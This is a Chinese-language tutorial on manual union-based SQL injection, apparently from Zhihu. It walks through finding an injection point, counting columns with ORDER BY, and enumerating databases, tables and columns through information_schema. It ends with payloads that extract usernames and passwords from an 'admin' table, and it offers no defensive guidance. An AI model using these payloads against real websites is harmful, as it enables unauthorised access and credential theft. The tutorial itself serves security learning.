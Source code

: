 # SQL注入原理

用户输入的内容被浏览器当做数据库语句进行执行。

## 两个关键条件

1、输入的内容一定要是数据库语句。

2、输入的内容当做数据库语句进行执行。

特点：用户输入的内容就是我们输入的内容。

## 输入位置

1.网站给我们提供的搜索框。

2.网址的参数的值。

## 总结

我们输入的【数据库语句】，如果被网站执行了，就说明这个网站存在数据库注入漏洞。

比如说，我们输入的[login],被网站执行了，带到他的数据库进行查询，并将查询的结果显示到了页面上。

## 数据库查询语法

Select ··· from ··· where ···

```text
	select 查询
	from 来自
	where 条件，当···的时候
```

## 手注流程—数据库注入漏洞

## 第一步：判断注入点

判断网站是否存在数据库注入漏洞

and 1=1 --> 页面有内容

and 1=2 --> 页面没有内容

==> 推断出这个网站存在数据库注入漏洞。

> 加 and 1=2 的目的：让前面的语句不执行，否则会影响我们后面的语句。

## 第二步：判断字段数

判断字段数（[列数](https://www.zhihu.com/search?q=列数&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"article"%2C"sourceId"%3A"457972271"})），order by ，作用：排序。

> order by :用于根据指定的列对结果集进行排序。

order by 1 --> 页面有内容 --> 说明网站的表里面有1列。 order by 2 --> 页面有内容 --> 说明网站的表里面有2列。 order by 3 --> 页面没有内容 --> 说明网站的表里面没有3列，只有2列。

> ps：当使用and被拦截的时候，可以考虑使用order by 去判断网站是否存在数据库注入漏洞。
>
> ![img](https://pic2.zhimg.com/v2-d26107197f6e9e70a099399b49086c5d_b.jpg)在这里插入图片描述
>
> ![img](https://pic4.zhimg.com/v2-71be83db66bde0f9f32c1d557de3e93b_b.jpg)在这里插入图片描述

## 第三步：判断回显点

union，作用：联合查询，能够同时执行两条查询语句。

关键点：必须保证前后两条查询语句的列数保持一致。

回显点的作用：能够将我们输入的数据库语句执行，并且将结果显示到页面上。

> select * from XXXX where id =1 and 1=2 union select 1,2



![img](https://pic4.zhimg.com/v2-7176dc013ecd18c2bfd4f97545129ebf_b.jpg)在这里插入图片描述



## 第四步：查询相关内容

> database() # 函数，作用：查询当前数据库的库名 # maoshe
>
> version() # 函数，作用：查询版本号 # 5.5.53

查询数据库版本

> and 1=2 union select 1,version()

查询数据库

> and 1=2 union select 1,schema_name from information_schema.schemata limit 0,1
>
> and 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata)

查询表名

> and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 1,1
>
> and 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database() )

查询字段名

> and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1and 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='admin')

查询字段内容

> and 1=2 union select 1,concat(username,',',password) from admin

查询表名：

> ?id=1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1

查询字段名（列名）

> ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 0,1

查询数据

> ?id=1 and 1=2 union select 1,password from admin limit 0,1

limit m,n # 查询m+1行的n条数据。限制输出的意思。

库的名字：information_schema （系统自带的）

表的名字：[tables](https://www.zhihu.com/search?q=tables&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"article"%2C"sourceId"%3A"457972271"})，columns

列的名字：table_name（存储的是表名），table_schema（存储的是库名），column_name（存储的都是列的名字）



# [sqlmap](https://www.zhihu.com/search?q=sqlmap&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"article"%2C"sourceId"%3A"479697760"})